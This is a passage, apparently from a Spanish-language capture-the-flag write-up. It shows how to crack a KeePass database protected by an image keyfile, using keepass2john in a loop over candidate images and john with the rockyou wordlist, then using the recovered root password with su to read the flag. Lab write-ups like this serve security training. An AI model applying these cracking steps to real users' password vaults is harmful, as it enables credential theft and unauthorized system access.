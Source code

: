 ```bash
keepass2john MyPasswords.kdbx -k IMG_0545.JPG
```

Como no sabemos exactamente que imagen es la buena, utilizaremos un oneLiner

```bash
for IMG in $(echo "IMG_0545.JPG IMG_0546.JPG IMG_0547.JPG IMG_0548.JPG IMG_0552.JPG IMG_0553.JPG "); do keepass2john -k $IMG MyPasswords.kdbx | sed "s/Mypasswords/$IMG/"; done > hashes
john --wordlist=/usr/share/wordlists/rockyou.txt hashes
```

Encontramos la contraseña con la imagen 0547. Si abrimos el keepassxc dando la imagen como keyfile y con la contraseña podemos entrar y vemos un directorio
llamado Root Password

ya podemos utilizar el comando 
```bash
 su root 
```
 y leer la flag.



